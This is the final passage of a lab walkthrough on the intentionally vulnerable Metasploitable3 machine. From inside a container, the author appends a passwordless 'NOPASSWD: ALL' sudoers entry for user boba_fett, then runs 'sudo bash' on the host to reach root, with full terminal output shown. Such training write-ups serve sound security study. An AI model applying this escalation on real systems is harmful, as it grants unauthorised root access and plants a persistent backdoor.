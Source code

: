 To edit the `sudoers` file, we will use the `echo` to append the following information to enable user `boba_fett` issue sudo commands without any password: `echo "boba_fett ALL=(ALL) NOPASSWD: ALL" >> sudoers`. We can confirm this has been appended to the file by reading the file using `cat sudoers`.

```
root@5918a86e9463:~# echo "boba_fett ALL=(ALL) NOPASSWD: ALL" >> sudoers
root@5918a86e9463:~# cat sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
boba_fett ALL=(ALL) NOPASSWD: ALL
root@5918a86e9463:~# 
```

With this done, we can exit the container and simply issue `sudo bash` to gain a root shell

```
root@5918a86e9463:~# exit
exit
boba_fett@metasploitable3-ub1404:~$ 
boba_fett@metasploitable3-ub1404:~$ id
uid=1121(boba_fett) gid=100(users) groups=100(users),999(docker)
boba_fett@metasploitable3-ub1404:~$ whoami
boba_fett
boba_fett@metasploitable3-ub1404:~$ sudo bash
root@metasploitable3-ub1404:~# id
uid=0(root) gid=0(root) groups=0(root)
root@metasploitable3-ub1404:~# whoami
root
root@metasploitable3-ub1404:~# hostname
metasploitable3-ub1404
root@metasploitable3-ub1404:~# 

```

So, we finally have a shell as root. Hope you enjoyed reading this walkthrough.
